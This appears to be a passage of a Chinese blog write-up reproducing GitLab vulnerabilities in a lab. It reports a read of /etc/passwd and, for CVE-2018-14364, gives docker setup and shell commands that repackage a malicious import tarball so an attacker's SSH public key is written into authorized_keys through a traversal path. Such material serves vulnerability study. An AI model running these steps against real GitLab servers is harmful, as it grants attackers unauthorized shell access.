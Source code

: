 成功读取/etc/passwd：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc7Xqo7hicNDJjwuYeekOZIZzDhaD0bTnDibgl7R0dAp0EXic3PCFiavjwxQ/640?wx_fmt=png&from=appmsg "")  
  
关于漏洞的分析请参考404实验室的这篇paper：  
  
https://paper.seebug.org/104/  
## 0x03 任意文件写入导致远程命令执行（CVE-2018-14364）  
### 一、漏洞描述  
  
GitLab 社区版和企业版 10.7.7 之前、10.8.6 之前的 10.8.x 以及 11.0.4 之前的 11.x 允许通过 GitLab 项目导入组件进行具有写访问权限的目录遍历并由此导致的远程代码执行。  
### 二、环境搭建  
  
使用11.0.3版本来搭建漏洞环境  
```
sudo docker pull gitlab/gitlab-ce:11.0.3-ce.0
sudo docker run -it -p 443:443 -p 80:80 -p 222:22 -d image_id
```  
  
创建test用户，此处不赘述。  
### 三、漏洞复现  
  
首先说一下，制作压缩包时应当在linux上进行，我在macos上进行最后会导致复现失败，应该是linux与macos对于路径中特殊字符的处理不一样而导致的。  
#### 1.第一步，在攻击机上生成一对密钥  
  
我的攻击机为kali  
```
ssh-keygen -t rsa
```  
  
然后根据提示进行输入即可：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc3h4R1Nxn18Jbr5ScUP2BKLAnaXYia6tK5FzVLOO4CEWXIxv8PI2SxUg/640?wx_fmt=png&from=appmsg "")  
#### 2.第二步，制作压缩包  
  
压缩包的模板采用漏洞原作者在hackone上提供的：  
  
https://hackerone.com/reports/378148  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcanpsNBNEtwiaexjHZye71kwav2JrOgTQpj3lHabXrcBWHj3jx7suXGA/640?wx_fmt=png&from=appmsg "")  
  
第一个压缩包直接用，我这里将其改名为evil1.tar.gz；  
  
第二个压缩包进行解压，将uploads目录中authorized_keys文件的内容改为刚才生成的公钥  
```
cd ~/Downloads
mv tarball1.tar.gz evil1.tar.gz
mkdir evil&&tar -zxvf tarball2.tar.gz -C evil //将tarball2.tar.gz解压到evil目录
cd uploads&&ls -al
cd '.'$'\n''evil'&&ls -al
cd .ssh
cat ~/.ssh/id_rsa.pub > authorized_keys //将公钥写入authorized_keys
cat authorized_keys
cd ~/Downloads/evil
tar czf ../evil2.tar.gz project.json uploads VERSION //重打包
```  
  
